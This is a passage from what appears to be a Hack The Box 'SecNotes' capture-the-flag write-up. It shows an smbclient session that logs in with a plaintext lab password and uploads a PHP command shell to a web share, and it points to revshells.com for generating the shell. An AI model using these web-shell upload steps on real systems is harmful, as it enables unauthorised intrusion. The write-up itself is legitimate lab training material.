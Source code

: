 ### Reverse shell

After logging in, lets put in PHP cmd shell in the share and try to browse it at http://secnotes:8808/cmd-rev.php . You could use revshells.com to generate this php.


[revshells.com](https://www.revshells.com/)
![secnotes](/assets/img/htb_secnotes/Secnotes-009.png)

```console
$ smbclient //secnotes.htb/new-site --user=tyler --password='92g!mA8BGjOirkL%OG*&'
Try "help" to get a list of possible commands.
smb: \> put cmd-rev.php
```

You could execute windows commands over this shell.

![secnotes](/assets/img/htb_secnotes/Secnotes-010.png)
